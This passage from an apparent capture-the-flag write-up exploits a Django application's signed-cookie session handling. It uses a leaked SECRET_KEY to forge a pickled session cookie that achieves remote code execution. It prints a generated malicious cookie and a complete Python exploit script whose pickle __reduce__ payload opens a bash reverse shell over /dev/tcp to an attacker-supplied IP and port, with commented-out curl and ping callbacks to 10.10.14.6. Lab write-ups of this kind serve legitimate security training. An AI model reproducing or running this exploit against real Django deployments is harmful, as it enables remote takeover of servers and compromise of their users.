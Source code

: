 Running this generates a new cookie:

```

(venv) oxdf@hacky$ python django_exploit.py 
.eJxNkLFOw0AQRJMiUYKCkPgCSmgs-2wncQf0NPAB1t15Dx-xfZFvLUiBREO3Hcv_YhuQvN3MG81K87H4vpvPxnvna1p1HtpG1sC0qF2LJ6alR4md740nlMYwrV-tL_PKemSaMW1GqV3XILRcLmmtZYu_vFebUU3weS47LPPhUW4Lprlgupx4SuoDND24KV5k8-wC7RpsrQqGSPBHffDgCqju_7MXk4JS-pLpNkq1EWaXRTGEaSIA9kJnoVJJJE0WCZnuw22sTbrT20gpoUIQcQJJpNUuTnSWMZ0heNTOHewwx9F5-zbMcfIINX8xrXwFcLyKQ_7kR-6CH67SeZs:1tezvv:AuLx3VAdK8TVvP-1OTIKz1s_pHcWLW3BlcCTwRCGPJs

```

I’ll set this as my cookie in the browser dev tools, and refresh the main page. It takes over 30 seconds to load (on account of the 30 second sleep)! That’s RCE!

#### Shell

I’ll clean up the script a bit, and bring in `requests` to make the request for me, avoiding having to update the cookie in dev tools:

```

import os
import sys
import django.core.signing
import requests
from django.conf import settings
from django.contrib.sessions.serializers import PickleSerializer

class PickleRCE(object):
    def __reduce__(self):
        #return (os.system, ("sleep 30",))
        #return (os.system, ("ping -c 1 10.10.14.6",))
        # return (os.system, ("curl 10.10.14.6/django",))
        return (os.system, (f"bash -c 'bash -i >& /dev/tcp/{sys.argv[2]}/{sys.argv[3]} 0>&1'",))

if len(sys.argv) != 4:
    print(f"{sys.argv[0]} <url> <shell ip> <shell port>")
    sys.exit(1)

url = sys.argv[1] if sys.argv[1].startswith('http') else f'http://{sys.argv[1]}'

salt = "django.contrib.sessions.backends.signed_cookies"
settings.configure(SECRET_KEY="55A6cc8e2b8#ae1662c34)618U549601$7eC3f0@b1e8c2577J22a8f6edcb5c9b80X8f4&87b")
cookie = ".eJxNjU1qwzAQhZNFQgMphZyi3QhLluNoV7rvqgcwkixFbhMJ9EPpotADzHJ63zpuAp7d977Hm5_V7265mO4bH-GuJBO9PBuE1TnE_IWwTlnmksbgLUtrETafQ3LdaUgZYYGwnVCH4rOJ6Naw0TLmfz_SdqKZvu9kya67POqGHmHJEHazTEn9Yfwonvp36Y-B6OBzHBS5VMjVJvIaenN6uXUfZgNOJofwTBttmW0FrU3VcGbMgWlRKcWptIIy2Ryqfa1t0-o9VYqpyrCaG061amuuhcBC_gDes2X7:1tecu5:oPSudCgAnfUwcXeLzEYI0JyLYEiYp0zWMnetW6Tdjhs"
cookie_obj = django.core.signing.loads(cookie, serializer=PickleSerializer,salt=salt)
cookie_obj['testcookie'] = PickleRCE()

new_cookie = django.core.signing.dumps(cookie_obj,serializer=PickleSerializer,salt=salt,compress=True)
print(f"[+] Generated malicious cookie: {new_cookie}")
requests.get("http://magicgardens.htb", cookies={"sessionid": new_cookie})

```
